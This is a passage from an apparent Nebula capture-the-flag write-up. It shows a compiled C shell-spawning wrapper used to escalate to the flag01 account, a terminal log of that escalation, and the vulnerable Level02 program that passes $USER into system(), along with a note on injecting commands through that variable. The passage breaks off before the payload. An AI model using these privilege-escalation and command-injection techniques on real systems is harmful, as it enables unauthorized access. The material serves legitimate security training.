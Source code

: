 int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
level01@nebula:/home/flag01$ gcc /tmp/setuid.c -o /tmp/echo
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ getflag 
You have successfully executed getflag on a target account
flag01@nebula:/home/flag01$ 
{{< /codecaption >}}

### Level02

Description:

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

{{< codecaption lang="c" title="Source Code" >}}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{{< /codecaption >}}

Here, we can inject additional commands into $USER environment variable and terminate the buffer with #:
 